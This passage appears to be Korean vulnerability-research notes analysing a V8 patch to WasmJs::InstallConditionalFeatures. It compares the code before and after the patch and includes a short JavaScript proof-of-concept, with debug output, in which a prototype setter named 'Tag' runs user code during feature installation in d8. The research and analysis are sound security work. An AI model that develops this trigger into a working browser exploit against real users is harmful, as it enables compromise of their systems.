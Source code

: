 Origin-Trial token은 다음에서 파싱해볼 수 있다.

<https://googlechrome.github.io/OriginTrials/check-token.html>

> Valid? Valid
> Version 2
> Origin http://localhost:8008
> Matches Subdomains? No
> Matches Third-party? No
> Usage Restriction
> Feature CaptureHandle
> Expires 7/27/2022, 8:59:59 AM

이제 d8에서 테스트해보면 되겠다.



## patch analysis & poc

1. JSObject::HasOwnProperty로 "Tag"가 존재하는지 확인 --> 패치 전/후 동일
2. CreateFunc 으로 tag_constructor 생성 --> 패치 전/후 동일
3. Object::SetProperty 로 webassembly에 tag_name으로 tag_constructor를 설정 --> 패치 전에만, 패치 후엔 해당 구문 X
4. context->set_wasm_tag_constructor(*tag_constructor) --> 패치 전/후 동일
5. SetupConstructor --> 패치 전/후 동일
6. JSObject::DefineOwnPropertyIgnoreAttributes로 프로퍼티 설정 --> 패치 후 추가

제일 큰 차이점은 Object::SetProperty 가 JSObject::DefineOwnPropertyIgnoreAttributes 로 변경된 점인 듯 하다. 프로퍼티를 추가하는 위치 또한 변경된 것이 의미가 있어보임.

> // The {WebAssembly} object may already have been modified. The following
> // code is designed to:
> //  - check for existing {Tag} properties on the object itself, and avoid
> //    overwriting them or adding duplicate properties
> //  - disregard any setters or read-only properties on the prototype chain
> //  - only make objects accessible to user code after all internal setup
> //    has been completed.

위 주석을 통해 유추컨데, setter가 중요한 포인트 아닐까? SetProperty를 통해 user javascript code가 실행되도록 할 수 있을듯?

```javascript
let object_1 = {};
let object_2 = {};
object_1.__defineSetter__("Tag", function(val) {
  console.log("setter!!");
  this._Tag = val;
});
object_2.__proto__ = object_1;

WebAssembly = object_2;
d8.test.installConditionalFeatures();
```

```
DEBUG:: Shell::InstallConditionalFeatures
DEBUG:: WasmJs::InstallConditionalFeatures starts!
DEBUG:: WasmJs::InstallConditionalFeatures has_eh()
DEBUG:: WasmJs::InstallConditionalFeatures, JSObject? 1 ,  JSProxy? 0
setter!!
DEBUG:: WasmJs::InstallConditionalFeatures, finished!

DebugPrint: 0x3fe00004b345: [JS_OBJECT_TYPE]
 - map: 0x3fe000207f31 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x3fe00004b329 <Object map = 0x3fe000207f09>
 - elements: 0x3fe000002261 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x3fe000002261 <FixedArray[0]>
 - All own properties (excluding elements): {
    0x3fe0001d3bd9: [String] in OldSpace: #_Tag: 0x3fe0001d3ba5 <JSFunction Tag (sfi = 0x3fe0001d3b81)> (const data field 0), location: in-object
```